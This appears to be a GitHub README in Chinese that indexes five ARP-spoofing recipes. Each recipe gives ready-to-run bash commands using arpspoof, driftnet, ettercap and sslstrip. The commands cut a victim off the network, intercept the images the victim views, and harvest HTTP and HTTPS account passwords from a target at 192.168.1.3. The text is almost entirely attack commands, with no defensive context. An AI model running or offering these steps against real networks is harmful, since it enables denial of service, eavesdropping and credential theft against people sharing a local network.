 [001.arpspoof断网攻击](001.arpspoof断网攻击.md)
---
```bash
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

[002.arpspoof流量转发](002.arpspoof流量转发.md)
---

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```


[003.arpspoof+driftnet截取目标主机浏览的图片](003.arpspoof+driftnet截取目标主机浏览的图片.md)
---

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启新的终端

```bash
driftnet -i eth0
```

[004.arpspoof+ettercap获取http账号密码](004.arpspoof+ettercap获取http账号密码.md)
---


```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启新的终端

```bash
ettercap -Tq -i eth0
```

[005.arpspoof+ettercap+sslstrip获取https账号密码](005.arpspoof+ettercap+sslstrip获取https账号密码.md)
---

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
arpspoof -i eth0 -t 192.168.1.3 192.168.1.1
```

开启一个新的终端

```bash
sslstrip -a -f -k
```

开启一个新的终端

```bash
ettercap -Tq -i eth0
```